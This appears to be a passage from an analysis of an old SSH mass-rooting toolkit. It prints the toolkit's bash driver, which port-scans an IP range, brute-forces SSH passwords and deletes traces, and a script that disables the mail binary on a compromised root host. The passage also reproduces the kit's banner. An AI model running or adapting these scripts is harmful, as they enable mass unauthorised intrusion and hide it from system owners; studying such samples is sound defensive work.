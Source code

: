     #!/bin/bash

    ./pscan2 $1 22
    sleep 5
    cat $1.pscan.22 |sort |uniq > mfu.txt
    oopsnr2=`grep -c . mfu.txt`
    echo ""
    echo "[+] Attacking $oopsnr2 servers!"
    echo ""
    perl sshc.c
    rm -rf sshc.c
    ./pass_sh
    ./ssh-scan 100
    rm -rf $1.pscan.22 mfu.txt
    echo ""

`pscan` is a basic port scanner for an IP block. `ssh-scan` is a password brute forcer. Other files just contain some dubious ascii art:

     __^__                                                              __^__
    ( ___ )------------------------------------------------------------( ___ )
     | / |               #help-bnc present`s:                           | \ |
     | / |       OmAr'z ssh massrooter build on 11-01-2006              | \ |
     | / |                                                              | \ |
     | / |                  Thanks to :  OmAr                           | \ |
     | / |                 and to all #OmAr members.                    | \ |
     | / |                                                              | \ |
     | / |    Fucks goes to : all hackers, we are script kiddies..      | \ |
     | / |                    so what ? fuck off !                      | \ |
     | / |                                                              | \ |
     | / |                      EOF by OmAr                             | \ |
     | / |--------------------------------------------------------------| \ |
     |___|______________[OmAr'z ssh massrooter by OmAr]_________________|___|
    (_____)------------------------------------------------------------(_____)
       ^                                                                  ^

## File http___gblteam_webs_com_gosh.tgz.tar

Another repackaging of the `pscan`-`ssh-scan` combination. This one contains a script called `secure`:

    #!/bin/bash
    if [ `whoami` == "root" ]; then
    chmod -x /usr/bin/mail
    mv /usr/bin/mail /usr/bin/s8
    echo " Done , You can scan now "
    else
    echo -e " you're not root you're `whoami` with id `id` !! "
    fi
